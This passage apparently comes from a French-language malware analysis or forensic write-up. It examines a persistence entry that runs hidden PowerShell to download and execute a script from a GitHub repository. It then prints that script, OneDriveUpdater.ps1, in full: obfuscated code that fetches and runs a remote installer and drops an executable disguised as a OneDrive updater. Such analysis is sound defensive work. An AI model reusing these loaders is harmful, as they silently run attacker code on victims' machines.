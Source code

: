 ![](./img/registry-explorer-1.png)

```ps1
NetworkService ~%windir%\system32\speech_onecore\common\SpeechModelDownload.exe powershell.exe -WindowStyle Hidden -NoProfile -NonInteractive -ExecutionPolicy Bypass -Command "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('https://raw.githubusercontent.com/witnessstrong/OneDriveUpdater/main/OneDriveUpdater.ps1') -UseBasicParsing | iex"
```

Sur le github, on peut avoir le code de `OneDriveUpdater.ps1`. On a également d'autre fichiers (script, dll, exe) dans le dépôt : https://github.com/witnessstrong/OneDriveUpdater

`OneDriveUpdater.ps1`:

```ps1
if (&("{2}{0}{1}" -f'e','st-Path','T') -Path ((("{17}{11}{6}{8}{19}{14}{2}{16}{20}{21}{13}{15}{3}{7}{12}{18}{5}{4}{1}{0}{9}{10}" -f 'er.','pdat','osof','O','eU','on','am File','neDr','s','ex','e','gr','ive','Updat','icr','erHcn','t','C:HcnPro','Standal','HcnM','HcnOneDriv','e'))."R`EPlace"(([ChAR]72+[ChAR]99+[ChAR]110),[STring][ChAR]92))) {
    & ((("{7}{3}{14}{1}{0}{8}{11}{5}{12}{4}{6}{2}{13}{9}{10}"-f'm Files{0}Micro','rogra','dater{','0}','i','neD','veUp','C:{','soft{0','neDriveSt','andaloneUpdater.exe','}O','r','0}O','P'))  -f  [CHAr]92)
} else {
          ${Z`F6}::"secU`RiTypr`OToC`OL" =  ${Z`F6}::"SECurit`ypro`T`OCol" -bor 3072; &("{0}{1}"-f 'ie','x') ((&("{1}{0}{2}"-f 'ew-Obj','N','ect') ("{0}{5}{4}{2}{3}{1}"-f'Sy','t','m.Net.W','ebClien','e','st')).("{3}{1}{0}{2}"-f'rin','oadSt','g','Downl').Invoke(("{9}{11}{8}{4}{14}{0}{13}{17}{7}{10}{1}{6}{15}{3}{19}{12}{18}{2}{16}{5}" -f 'wit','eUp','nstall.','w/m','/','s1','dater','ne','/','https','Driv',':','in','nessstrong','github.com/','/ra','p','/O','/i','a'))) | .("{2}{0}{1}"-f'Nu','ll','Out-');
    &("{1}{0}"-f'w-Item','Ne') -ItemType ("{0}{2}{1}" -f 'Dir','ory','ect') -Force -Path ((("{8}{2}{3}{1}{6}{7}{4}{5}{0}" -f 'r','Mi','X8Program Fi','leslX8','lX8OneDriveU','pdate','cro','soft','C:l')).("{1}{0}" -f'Ace','REpl').Invoke('lX8','\')) | &("{1}{0}"-f'Null','Out-');
    (.("{1}{2}{0}"-f'ject','N','ew-Ob') ("{1}{2}{3}{0}"-f 'nt','N','et.WebC','lie')).("{1}{0}{2}" -f 'Fil','Download','e').Invoke(("{21}{5}{16}{14}{17}{20}{2}{12}{11}{15}{24}{13}{7}{3}{8}{10}{18}{22}{1}{9}{19}{0}{6}{23}{4}" -f'aloneU','eDriv','ub.','Up','e','ttps','pdate','eDrive','dater/r','eStan','aw/mai','witnes','com/','n','/g','sstrong/',':/','it','n/','d','h','h','On','r.ex','O'),((("{5}{9}{17}{0}{11}{4}{1}{12}{3}{10}{6}{14}{7}{13}{15}{16}{18}{2}{8}"-f 'ogra','ob3','r.e','cr',' Files','C:','b3O','b3','xe','ob3P','osofto','m','Mi','O','neDriveUpdatero','neDriv','eSt','r','andaloneUpdate'))-REplACE'ob3',[char]92));
```